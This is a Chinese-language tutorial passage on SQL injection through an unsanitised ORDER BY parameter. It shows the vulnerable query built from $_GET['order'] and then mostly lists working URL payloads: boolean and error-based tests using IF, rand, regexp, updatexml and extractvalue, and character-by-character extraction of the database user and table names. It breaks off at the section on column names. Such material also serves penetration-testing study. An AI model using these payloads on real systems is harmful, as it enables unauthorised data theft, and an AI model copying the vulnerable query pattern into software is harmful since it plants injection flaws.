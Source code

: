 这里的话就是order by 后面的参数可控，我们对他进行恶意传参来达到sql注入情况。

"select * from goods order by $_GET['order']"

在早期注入大量存在的时候利用order by子句进行快速猜解列数，再配合union select语句进行回显。可以通过修改order参数为较大的整数看回显情况来判断。在不知道列名的情况下可以通过列的的序号来指代相应的列。但是经过测试这里无法做运算，如order=3-1 和order=2是不一样的
**payload:**

```
/?order=IF(1=1,name,price) 通过name字段排序
/?order=IF(1=2,name,price) 通过price字段排序
```

解释见上文。

rand函数也能达到类似的效果，可以观测到排序的结果不一样

```
/?order=rand(1=1) 
/?order=rand(1=2)
```

**利用报错**

返回多条记录

```
/?order=IF(1=1,1,(select+1+union+select+2)) 正确
/?order=IF(1=2,1,(select+1+union+select+2)) 错误


/?order=IF(1=1,1,(select+1+from+information_schema.tables)) 正常
/?order=IF(1=2,1,(select+1+from+information_schema.tables)) 错误
```

**利用regexp**

```
/?order=(select+1+regexp+if(1=1,1,0x00)) 正常
/?order=(select+1+regexp+if(1=2,1,0x00)) 错误
```

**利用updatexml**

```
/?order=updatexml(1,if(1=1,1,user()),1) 正确
/?order=updatexml(1,if(1=2,1,user()),1) 错误
```

**利用extractvalue**

```
/?order=extractvalue(1,if(1=1,1,user())) 正确
/?order=extractvalue(1,if(1=2,1,user())) 错误
```

**数据猜解**

```
/?order=(select+1+regexp+if(substring(user(),1,1)=0x72,1,0x00)) 正确
/?order=(select+1+regexp+if(substring(user(),1,1)=0x71,1,0x00)) 错误

可以得知user()第一位为r,ascii码的16进制为0x72

猜解当前数据库的表名：

/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00)) 正确
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误

猜解指定表名中的列名：

```
